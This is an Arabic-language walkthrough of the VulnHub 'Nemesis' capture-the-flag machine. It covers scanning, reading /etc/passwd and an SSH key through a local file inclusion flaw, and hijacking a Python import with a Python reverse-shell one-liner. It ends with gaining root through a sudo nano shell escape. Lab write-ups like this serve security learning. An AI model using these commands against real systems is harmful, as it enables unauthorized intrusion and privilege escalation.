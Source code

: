 # vulnhub nemesis

CTF السلام عليكم اليوم سنحل تحدي 

VULNHUB من تحديات  
يمكنك تحميله من هنا 

[nemesis](https://www.vulnhub.com/entry/ia-nemesis-101,582/)


## Walkthrough

### scanning
 nmap نبدا بفحص السيرفر ب 

 ![Desktop View](/img/nem/1.png)

     نلاحظ وجود 4 بورت

80 : الخاص بالويب سيرفر

52845: شغال ويب سيرفر 

52846: ssh خاص ب 

## Enumeration
 نتصفح الموقع 

  ![Desktop View](/img/nem/2.png)


عند القاء نظرة على سورس كود نجد كلمة سر واسم مستخدم


 ![Desktop View](/img/nem/3.png)

rabbit hole عبارة عن 
 
port 52845 نتصفح 

web application عند فحص 

lfi نجد انه مصاب بثغرة 

![Desktop View](/img/nem/4.png)

لنرى اليوزرس المتواجدين هنا passwd نقوم بسحب ملف 

![Desktop View](/img/nem/5.png)


thanos نجد يوزر 

ssh key نبحث داخله هل هناك 

../../../../home/thanos

![Desktop View](/img/nem/7.png)

وجدنا الملف الان نقوم بحفظه و تغير الصلاحيات 

![Desktop View](/img/nem/8.png)

نتصل ب السيرفر الان 

![Desktop View](/img/nem/9.png)

 كل مدت زمنية backup  يقوم بعمل python نجد ملف 

![Desktop View](/img/nem/10.png)


 
zipfile باسم python نقوم بانشاء ملف 

nc و نشغل 

python يعمل ملف carloss عندما يتم تشغيل الملف بواسطة  

  لشال الخاص بنا import 
  ```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

  ```


![Desktop View](/img/nem/11.png)

ننتظر قليل حتى نحصل على الاتصال من السيرفر

![Desktop View](/img/nem/12.png)


home directory نجد داخل  
ملف يقوم بالتشفير بداخله كلمة سر

![Desktop View](/img/nem/13.png)

affine نلاحظ انه عمل تشفير ب 

![Desktop View](/img/nem/14.png)

نقوم بفك تشفيره 

![Desktop View](/img/nem/16.png)

نحصل على كلمة سر 




## Privilege Escalation 


 ان يشغل بصلاحيات رووت carlos ثم نرى ماذا  يستطيع  

 باستخدام الامر التالي
 ```
 sudo -l 
 ```

![Desktop View](/img/nem/18.png)


![Desktop View](/img/nem/20.png)

gtfobiins نتوجه الى  nano نجد ان يستطيع استخدام 

![Desktop View](/img/nem/21.png)


نكتب
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

![Desktop View](/img/nem/22.png)




ROOT نحصل على 

![Desktop View](/img/nem/23.png)

